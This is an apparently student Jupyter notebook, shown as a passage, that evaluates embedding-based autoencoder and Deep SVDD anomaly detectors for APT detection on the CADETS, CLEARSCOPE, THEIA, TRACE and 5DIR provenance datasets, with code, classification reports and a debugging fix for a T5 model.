


Classification Report for 5DIR:
              precision    recall  f1-score   support

           0     0.9973    0.9969    0.9971      2229
           1     0.3000    0.3333    0.3158         9

    accuracy                         0.9942      2238
   macro avg     0.6487    0.6651    0.6564      2238
weighted avg     0.9945    0.9942    0.9943      2238


████████████████████████████████████████████████████████████████████████████████
🚀 EVALUATING CADETS
   Context:  ProcessAll
   Embedder: BAAI/bge-m3
   Model:    Baseline
████████████████████████████████████████████████████████████████████████████████
   -> Loading BAAI/bge-m3 into VRAM...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(


   -> Unloading BAAI/bge-m3 to free VRAM...
   -> Loading BAAI/bge-m3 into VRAM...
   -> Unloading BAAI/bge-m3 to free VRAM...

   -> Loading weights: D:\Waleed FYP\saved_weights_bge_m3\cadets_ProcessAll_Baseline.pth
   -> Calculating anomaly scores...
   -> ✅ Saved Confusion Matrix as CM_Final_BestCombo_cadets.png





Classification Report for CADETS:
              precision    recall  f1-score   support

           0     1.0000    0.9945    0.9973     44923
           1     0.0430    1.0000    0.0824        11

    accuracy                         0.9945     44934
   macro avg     0.5215    0.9973    0.5398     44934
weighted avg     0.9998    0.9945    0.9970     44934


████████████████████████████████████████████████████████████████████████████████
🚀 EVALUATING CLEARSCOPE
   Context:  ProcessAll
   Embedder: intfloat/e5-mistral-7b-instruct
   Model:    Deep SVDD
████████████████████████████████████████████████████████████████████████████████
   -> Loading intfloat/e5-mistral-7b-instruct into VRAM...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:143: UserWarning: `huggingface_hub` cache-system uses symlinks by default to efficiently store duplicated files but your machine does not support them in C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\hub\models--intfloat--e5-mistral-7b-instruct. Caching files will still work but in a degraded version that might require more space on your disk. This warning can be disabled by setting the `HF_HUB_DISABLE_SYMLINKS_WARNING` environment variable. For more details, see https://huggingface.co/docs/huggingface_hub/how-to-cache#limitations.
To support sy

   -> Unloading intfloat/e5-mistral-7b-instruct to free VRAM...
   -> Loading intfloat/e5-mistral-7b-instruct into VRAM...


Loading checkpoint shards: 100%|██████████| 2/2 [00:12<00:00,  6.19s/it]


   -> Unloading intfloat/e5-mistral-7b-instruct to free VRAM...

   -> Loading weights: D:\Waleed FYP\saved_weights_e5_mistral\clearscope_ProcessAll_DeepSVDD.pth
   -> Calculating anomaly scores...
   -> ✅ Saved Confusion Matrix as CM_Final_BestCombo_clearscope.png





Classification Report for CLEARSCOPE:
              precision    recall  f1-score   support

           0     0.9946    0.9971    0.9959      2419
           1     0.0000    0.0000    0.0000        13

    accuracy                         0.9918      2432
   macro avg     0.4973    0.4986    0.4979      2432
weighted avg     0.9893    0.9918    0.9905      2432


████████████████████████████████████████████████████████████████████████████████
🚀 EVALUATING THEIA
   Context:  ProcessAll
   Embedder: BAAI/bge-m3
   Model:    Baseline
████████████████████████████████████████████████████████████████████████████████
   -> Loading BAAI/bge-m3 into VRAM...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(


   -> Unloading BAAI/bge-m3 to free VRAM...
   -> Loading BAAI/bge-m3 into VRAM...
   -> Unloading BAAI/bge-m3 to free VRAM...

   -> Loading weights: D:\Waleed FYP\saved_weights_bge_m3\theia_ProcessAll_Baseline.pth
   -> Calculating anomaly scores...
   -> ✅ Saved Confusion Matrix as CM_Final_BestCombo_theia.png





Classification Report for THEIA:
              precision    recall  f1-score   support

           0     1.0000    0.9956    0.9978     55854
           1     0.2870    0.9900    0.4449       100

    accuracy                         0.9956     55954
   macro avg     0.6435    0.9928    0.7214     55954
weighted avg     0.9987    0.9956    0.9968     55954


████████████████████████████████████████████████████████████████████████████████
🚀 EVALUATING TRACE
   Context:  ProcessAll
   Embedder: sentence-transformers/gtr-t5-large
   Model:    Baseline
████████████████████████████████████████████████████████████████████████████████
   -> Loading sentence-transformers/gtr-t5-large into VRAM...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(
Some weights of T5Model were not initialized from the model checkpoint at sentence-transformers/gtr-t5-large and are newly initialized: ['decoder.block.0.layer.0.SelfAttention.k.weight', 'decoder.block.0.layer.0.SelfAttention.o.weight', 'decoder.block.0.layer.0.SelfAttention.q.weight', 'decoder.block.0.layer.0.SelfAttention.relative_attention_bias.weight', 'decoder.block.0.layer.0.SelfAttention.v.weight', 'decoder.block.0.layer.0.layer_norm.weight', 'decoder.block.0.layer.1.EncDecAttention.k.weight', 'decoder.block.0.layer.1.EncDecAttention.o.weight', 'decoder.block.0.layer.1.EncDecAttention.q.weight', 'decoder.block.0.layer.1.EncDecAttention.v.weight', 'decoder.

ValueError: You have to specify either decoder_input_ids or decoder_inputs_embeds

In [1]:
import os
import torch
import torch.nn as nn
import numpy as np
import pandas as pd
import pickle
import matplotlib.pyplot as plt
import seaborn as sns
from transformers import AutoTokenizer, AutoModel
from sklearn.metrics import confusion_matrix, classification_report
import gc

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

print("📦 Loading Master Dataset into memory...")
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

# ==========================================
# 1. EXACT CONFIGURATION DICTIONARY
# ==========================================
CONFIG = {
    '5dir': {
        'llm': 'McGill-NLP/LLM2Vec-Meta-Llama-3-8B-Instruct-mntp', 
        'dim': 4096, 
        'ae': 'LSTMAE', 
        'pooling': 'mean', 
        'context': 'ProcessAll',
        'weights_file': r"D:\Waleed FYP\saved_weights_llm2vec_llama3\5dir_ProcessAll_llama3_manual_LSTMAE.pth"
    },
    'cadets': {
        'llm': 'BAAI/bge-m3', 
        'dim': 1024, 
        'ae': 'Baseline', 
        'pooling': 'cls',
        'context': 'ProcessAll',
        'weights_file': r"D:\Waleed FYP\saved_weights_bge_m3\cadets_ProcessAll_Baseline.pth"
    },
    'clearscope': {
        'llm': 'intfloat/e5-mistral-7b-instruct', 
        'dim': 4096, 
        'ae': 'Deep SVDD', 
        'pooling': 'eos', 
        'context': 'ProcessAll',
        'weights_file': r"D:\Waleed FYP\saved_weights_e5_mistral\clearscope_ProcessAll_DeepSVDD.pth"
    },
    'theia': {
        'llm': 'BAAI/bge-m3', 
        'dim': 1024, 
        'ae': 'Baseline', 
        'pooling': 'cls',
        'context': 'ProcessAll',
        'weights_file': r"D:\Waleed FYP\saved_weights_bge_m3\theia_ProcessAll_Baseline.pth"
    },
    'trace': {
        'llm': 'sentence-transformers/gtr-t5-large', 
        'dim': 768, 
        'ae': 'Baseline', 
        'pooling': 'mean',
        'context': 'ProcessAll',
        'weights_file': r"D:\Waleed FYP\saved_weights_gtr_t5_large\trace_ProcessAll_Baseline.pth"
    }
}

# ==========================================
# 2. DEFINE ALL WINNING ARCHITECTURES
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x): return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x): return self.encoder(x)

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)

# ==========================================
# 3. DYNAMIC EMBEDDING GENERATOR
# ==========================================
def get_dynamic_embeddings(text_list, llm_name, pooling_type, batch_size=16):
    print(f"   -> Loading {llm_name} into VRAM...")
    
    # trust_remote_code=True is required for Llama-3 LLM2Vec architectures
    tokenizer = AutoTokenizer.from_pretrained(llm_name, trust_remote_code=True)
    if tokenizer.pad_token is None:
        tokenizer.pad_token = tokenizer.eos_token
        
    embedder = AutoModel.from_pretrained(llm_name, torch_dtype=torch.float16, trust_remote_code=True).to(DEVICE)
    embedder.eval()
    
    all_embs = []
    for i in range(0, len(text_list), batch_size):
        batch = text_list[i:i+batch_size]
        inputs = tokenizer(batch, padding=True, truncation=True, max_length=512, return_tensors="pt").to(DEVICE)
        
        with torch.inference_mode():
            outputs = embedder(**inputs)
            
            if pooling_type == 'cls':
                emb = outputs.last_hidden_state[:, 0]
            elif pooling_type == 'mean':
                attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
                sum_embeddings = torch.sum(outputs.last_hidden_state * attention_mask, dim=1)
                sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
                emb = sum_embeddings / sum_mask
            elif pooling_type == 'eos':
                sequence_lengths = inputs['attention_mask'].sum(dim=1) - 1
                emb = outputs.last_hidden_state[torch.arange(outputs.last_hidden_state.shape[0]), sequence_lengths]

            emb = torch.nn.functional.normalize(emb, p=2, dim=1)
            all_embs.append(emb.cpu().numpy())
            
        del inputs, outputs, emb
        torch.cuda.empty_cache()
        
    print(f"   -> Unloading {llm_name} to free VRAM...")
    del tokenizer, embedder
    gc.collect()
    torch.cuda.empty_cache()
    
    return np.vstack(all_embs).astype(np.float32)

# ==========================================
# 4. MASTER EVALUATION LOOP
# ==========================================
for performer, settings in CONFIG.items():
    print("\n" + "█"*80)
    print(f"🚀 EVALUATING {performer.upper()}")
    print(f"   Context:  {settings['context']}")
    print(f"   Embedder: {settings['llm']}")
    print(f"   Model:    {settings['ae']}")
    print("█"*80)

    # -- A. Load Data --
    if settings['context'] not in master_text_data.get(performer, {}):
        print(f"[!] Critical Error: {settings['context']} not found in master dataset for {performer}. Skipping.")
        continue

    df = master_text_data[performer][settings['context']]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    df = df[[text_col, label_col]].dropna(subset=[text_col]).reset_index(drop=True)

    normal_df = df[df[label_col] == 0]
    anomaly_df = df[df[label_col] == 1]
    train_size = int(0.8 * len(normal_df))

    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
    test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))

    # -- B. Generate Dynamic Embeddings --
    # Massive models (Llama-3 8B, Mistral 7B) need very small batch sizes to avoid OOM
    b_size = 2 if settings['dim'] > 2000 else 32 
    X_train_emb = get_dynamic_embeddings(train_texts, settings['llm'], settings['pooling'], batch_size=b_size)
    X_test_emb = get_dynamic_embeddings(test_texts, settings['llm'], settings['pooling'], batch_size=b_size)

    # -- C. Initialize specific AE Architecture --
    input_dim = settings['dim']
    ae_type = settings['ae']
    
    if ae_type == 'Baseline':
        model = VanillaAE(input_dim).to(DEVICE)
    elif ae_type == 'LSTMAE':
        model = LSTMAE(input_dim).to(DEVICE)
    elif ae_type == 'Deep SVDD':
        model = DeepSVDDNet(input_dim).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 

    # Load weights from the exact provided path
    weights_path = settings['weights_file']
    print(f"\n   -> Loading weights: {weights_path}")
    
    try:
        model.load_state_dict(torch.load(weights_path, map_location=DEVICE))
    except Exception as e:
        print(f"   [!] Failed to load weights: {e}")
        continue
        
    model.eval()

    # -- D. Calculate Errors --
    print("   -> Calculating anomaly scores...")
    train_tensor = torch.FloatTensor(X_train_emb).to(DEVICE)
    test_tensor = torch.FloatTensor(X_test_emb).to(DEVICE)
    
    with torch.no_grad():
        if ae_type == 'Deep SVDD':
            train_errors = torch.sum((model(train_tensor) - center) ** 2, dim=1).cpu().numpy()
            test_errors  = torch.sum((model(test_tensor) - center) ** 2, dim=1).cpu().numpy()
        else: # Standard MSE for Baseline / LSTMAE
            train_errors = torch.mean((train_tensor - model(train_tensor)) ** 2, dim=1).cpu().numpy()
            test_errors  = torch.mean((test_tensor - model(test_tensor)) ** 2, dim=1).cpu().numpy()

    # -- E. Apply Threshold & Evaluate --
    threshold = np.percentile(train_errors, 99.5) 
    predictions = (test_errors > threshold).astype(int)

    # -- F. Plot Confusion Matrix --
    cm = confusion_matrix(test_labels, predictions)

    plt.figure(figsize=(6, 4))
    sns.heatmap(cm, annot=True, fmt='d', cmap='Blues',
                xticklabels=['Predicted Benign (0)', 'Predicted APT (1)'],
                yticklabels=['Actual Benign (0)', 'Actual APT (1)'])
    
    plt.title(f"Confusion Matrix: {performer.upper()}\n{settings['llm'].split('/')[-1]} + {ae_type}", fontsize=11)
    plt.ylabel('True Label', fontweight='bold')
    plt.xlabel('Predicted Label', fontweight='bold')
    plt.tight_layout()
    
    # Save Image 
    save_name = f"CM_Final_BestCombo_{performer}.png"
    plt.savefig(save_name, dpi=300)
    print(f"   -> ✅ Saved Confusion Matrix as {save_name}")
    plt.show()

    print(f"\nClassification Report for {performer.upper()}:")
    print(classification_report(test_labels, predictions, digits=4))
    
    # Clean up massive tensors before next performer
    del train_tensor, test_tensor, model, X_train_emb, X_test_emb
    gc.collect()
    torch.cuda.empty_cache()

print("\n🎉 ALL PERFORMERS EVALUATED SUCCESSFULLY!")

📦 Loading Master Dataset into memory...

████████████████████████████████████████████████████████████████████████████████
🚀 EVALUATING TRACE
   Context:  ProcessAll
   Embedder: sentence-transformers/gtr-t5-large
   Model:    Baseline
████████████████████████████████████████████████████████████████████████████████
   -> Loading sentence-transformers/gtr-t5-large into VRAM...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(
Some weights of T5Model were not initialized from the model checkpoint at sentence-transformers/gtr-t5-large and are newly initialized: ['decoder.block.0.layer.0.SelfAttention.k.weight', 'decoder.block.0.layer.0.SelfAttention.o.weight', 'decoder.block.0.layer.0.SelfAttention.q.weight', 'decoder.block.0.layer.0.SelfAttention.relative_attention_bias.weight', 'decoder.block.0.layer.0.SelfAttention.v.weight', 'decoder.block.0.layer.0.layer_norm.weight', 'decoder.block.0.layer.1.EncDecAttention.k.weight', 'decoder.block.0.layer.1.EncDecAttention.o.weight', 'decoder.block.0.layer.1.EncDecAttention.q.weight', 'decoder.block.0.layer.1.EncDecAttention.v.weight', 'decoder.

   -> Unloading sentence-transformers/gtr-t5-large to free VRAM...
   -> Loading sentence-transformers/gtr-t5-large into VRAM...


Some weights of T5Model were not initialized from the model checkpoint at sentence-transformers/gtr-t5-large and are newly initialized: ['decoder.block.0.layer.0.SelfAttention.k.weight', 'decoder.block.0.layer.0.SelfAttention.o.weight', 'decoder.block.0.layer.0.SelfAttention.q.weight', 'decoder.block.0.layer.0.SelfAttention.relative_attention_bias.weight', 'decoder.block.0.layer.0.SelfAttention.v.weight', 'decoder.block.0.layer.0.layer_norm.weight', 'decoder.block.0.layer.1.EncDecAttention.k.weight', 'decoder.block.0.layer.1.EncDecAttention.o.weight', 'decoder.block.0.layer.1.EncDecAttention.q.weight', 'decoder.block.0.layer.1.EncDecAttention.v.weight', 'decoder.block.0.layer.1.layer_norm.weight', 'decoder.block.0.layer.2.DenseReluDense.wi.weight', 'decoder.block.0.layer.2.DenseReluDense.wo.weight', 'decoder.block.0.layer.2.layer_norm.weight', 'decoder.block.1.layer.0.SelfAttention.k.weight', 'decoder.block.1.layer.0.SelfAttention.o.weight', 'decoder.block.1.layer.0.SelfAttention.q.wei

   -> Unloading sentence-transformers/gtr-t5-large to free VRAM...

   -> Loading weights: D:\Waleed FYP\saved_weights_gtr_t5_large\trace_ProcessAll_Baseline.pth
   -> Calculating anomaly scores...
   -> ✅ Saved Confusion Matrix as CM_Final_BestCombo_trace.png





Classification Report for TRACE:
              precision    recall  f1-score   support

           0     1.0000    0.9950    0.9975     56412
           1     0.1407    1.0000    0.2466        46

    accuracy                         0.9950     56458
   macro avg     0.5703    0.9975    0.6221     56458
weighted avg     0.9993    0.9950    0.9969     56458


🎉 TRACE EVALUATED SUCCESSFULLY!


In [3]:
import os
import torch
import torch.nn as nn
import numpy as np
import pandas as pd
import pickle
import matplotlib.pyplot as plt
import seaborn as sns
from transformers import AutoTokenizer, AutoModel
from sklearn.metrics import confusion_matrix, classification_report
import gc

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

print("📦 Loading Master Dataset into memory...")
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

# ==========================================
# 1. ISOLATED CONFIGURATION (JUST TRACE - FIXED DIMENSIONS)
# ==========================================
CONFIG = {
    'trace': {
        'llm': 'sentence-transformers/gtr-t5-large', 
        'dim': 1024,  # <--- THE FIX: Changed from 768 to 1024
        'ae': 'Baseline', 
        'pooling': 'mean',
        'context': 'ProcessAll',
        'weights_file': r"D:\Waleed FYP\saved_weights_gtr_t5_large\trace_ProcessAll_Baseline.pth"
    }
}

# ==========================================
# 2. DEFINE ALL WINNING ARCHITECTURES
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x): return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x): return self.encoder(x)

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)

# ==========================================
# 3. DYNAMIC EMBEDDING GENERATOR (WITH T5 FIX)
# ==========================================
def get_dynamic_embeddings(text_list, llm_name, pooling_type, batch_size=16):
    print(f"   -> Loading {llm_name} into VRAM...")
    
    tokenizer = AutoTokenizer.from_pretrained(llm_name, trust_remote_code=True)
    if tokenizer.pad_token is None:
        tokenizer.pad_token = tokenizer.eos_token
        
    embedder = AutoModel.from_pretrained(llm_name, torch_dtype=torch.float16, trust_remote_code=True).to(DEVICE)
    embedder.eval()
    
    all_embs = []
    for i in range(0, len(text_list), batch_size):
        batch = text_list[i:i+batch_size]
        inputs = tokenizer(batch, padding=True, truncation=True, max_length=512, return_tensors="pt").to(DEVICE)
        
        with torch.inference_mode():
            if embedder.config.is_encoder_decoder:
                outputs = embedder.encoder(**inputs)
            else:
                outputs = embedder(**inputs)
            
            if pooling_type == 'cls':
                emb = outputs.last_hidden_state[:, 0]
            elif pooling_type == 'mean':
                attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
                sum_embeddings = torch.sum(outputs.last_hidden_state * attention_mask, dim=1)
                sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
                emb = sum_embeddings / sum_mask
            elif pooling_type == 'eos':
                sequence_lengths = inputs['attention_mask'].sum(dim=1) - 1
                emb = outputs.last_hidden_state[torch.arange(outputs.last_hidden_state.shape[0]), sequence_lengths]

            emb = torch.nn.functional.normalize(emb, p=2, dim=1)
            all_embs.append(emb.cpu().numpy())
            
        del inputs, outputs, emb
        torch.cuda.empty_cache()
        
    print(f"   -> Unloading {llm_name} to free VRAM...")
    del tokenizer, embedder
    gc.collect()
    torch.cuda.empty_cache()
    
    return np.vstack(all_embs).astype(np.float32)

# ==========================================
# 4. MASTER EVALUATION LOOP
# ==========================================
for performer, settings in CONFIG.items():
    print("\n" + "█"*80)
    print(f"🚀 EVALUATING {performer.upper()}")
    print(f"   Context:  {settings['context']}")
    print(f"   Embedder: {settings['llm']}")
    print(f"   Model:    {settings['ae']}")
    print("█"*80)

    # -- A. Load Data --
    df = master_text_data[performer][settings['context']]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    df = df[[text_col, label_col]].dropna(subset=[text_col]).reset_index(drop=True)

    normal_df = df[df[label_col] == 0]
    anomaly_df = df[df[label_col] == 1]
    train_size = int(0.8 * len(normal_df))

    train_texts = normal_df[text_col].tolist()[:train_size]
    test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
    test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))

    # -- B. Generate Dynamic Embeddings --
    b_size = 32 
    X_train_emb = get_dynamic_embeddings(train_texts, settings['llm'], settings['pooling'], batch_size=b_size)
    X_test_emb = get_dynamic_embeddings(test_texts, settings['llm'], settings['pooling'], batch_size=b_size)

    # -- C. Initialize specific AE Architecture --
    input_dim = settings['dim']
    ae_type = settings['ae']
    
    if ae_type == 'Baseline':
        model = VanillaAE(input_dim).to(DEVICE)
    elif ae_type == 'LSTMAE':
        model = LSTMAE(input_dim).to(DEVICE)
    elif ae_type == 'Deep SVDD':
        model = DeepSVDDNet(input_dim).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 

    # Load weights from the exact provided path
    weights_path = settings['weights_file']
    print(f"\n   -> Loading weights: {weights_path}")
    
    try:
        model.load_state_dict(torch.load(weights_path, map_location=DEVICE))
    except Exception as e:
        print(f"   [!] Failed to load weights: {e}")
        continue
        
    model.eval()

    # -- D. Calculate Errors --
    print("   -> Calculating anomaly scores...")
    train_tensor = torch.FloatTensor(X_train_emb).to(DEVICE)
    test_tensor = torch.FloatTensor(X_test_emb).to(DEVICE)
    
    with torch.no_grad():
        if ae_type == 'Deep SVDD':
            train_errors = torch.sum((model(train_tensor) - center) ** 2, dim=1).cpu().numpy()
            test_errors  = torch.sum((model(test_tensor) - center) ** 2, dim=1).cpu().numpy()
        else: # Standard MSE for Baseline / LSTMAE
            train_errors = torch.mean((train_tensor - model(train_tensor)) ** 2, dim=1).cpu().numpy()
            test_errors  = torch.mean((test_tensor - model(test_tensor)) ** 2, dim=1).cpu().numpy()

    # -- E. Apply Threshold & Evaluate --
    threshold = np.percentile(train_errors, 99.5) 
    predictions = (test_errors > threshold).astype(int)

    # -- F. Plot Confusion Matrix --
    cm = confusion_matrix(test_labels, predictions)

    plt.figure(figsize=(6, 4))
    sns.heatmap(cm, annot=True, fmt='d', cmap='Blues',
                xticklabels=['Predicted Benign (0)', 'Predicted APT (1)'],
                yticklabels=['Actual Benign (0)', 'Actual APT (1)'])
    
    plt.title(f"Confusion Matrix: {performer.upper()}\n{settings['llm'].split('/')[-1]} + {ae_type}", fontsize=11)
    plt.ylabel('True Label', fontweight='bold')
    plt.xlabel('Predicted Label', fontweight='bold')
    plt.tight_layout()
    
    # Save Image 
    save_name = f"CM_Final_BestCombo_{performer}.png"
    plt.savefig(save_name, dpi=300)
    print(f"   -> ✅ Saved Confusion Matrix as {save_name}")
    plt.show()

    print(f"\nClassification Report for {performer.upper()}:")
    print(classification_report(test_labels, predictions, digits=4))
    
    del train_tensor, test_tensor, model, X_train_emb, X_test_emb
    gc.collect()
    torch.cuda.empty_cache()

print("\n🎉 TRACE EVALUATED SUCCESSFULLY!")

In [6]:
import os
import torch
import torch.nn as nn
import numpy as np
import pandas as pd
import pickle
import gc
from transformers import AutoTokenizer, AutoModel, BitsAndBytesConfig
from sklearn.metrics import average_precision_score, roc_auc_score

DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

print("📦 Loading Master Dataset into memory...")
MASTER_DATA_FILE = "all_data_with_sentences.pkl" 
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

# ==========================================
# 1. EXACT CONFIGURATION DICTIONARY
# ==========================================
CONFIG = {
    'cadets': {
        'llm': 'BAAI/bge-m3', 
        'dim': 1024, 
        'ae': 'Baseline', 
        'pooling': 'cls',
        'context': 'ProcessAll',
        'weights_file': r"D:\Waleed FYP\saved_weights_bge_m3\cadets_ProcessAll_Baseline.pth"
    },
    'clearscope': {
        'llm': 'intfloat/e5-mistral-7b-instruct', 
        'dim': 4096, 
        'ae': 'Deep SVDD', 
        'pooling': 'eos', 
        'context': 'ProcessAll',
        'weights_file': r"D:\Waleed FYP\saved_weights_e5_mistral\clearscope_ProcessAll_DeepSVDD.pth"
    }
}

# ==========================================
# 2. DEFINE ALL WINNING ARCHITECTURES
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x): return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x): return self.encoder(x)

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        hidden_rep = hidden[-1].unsqueeze(1)
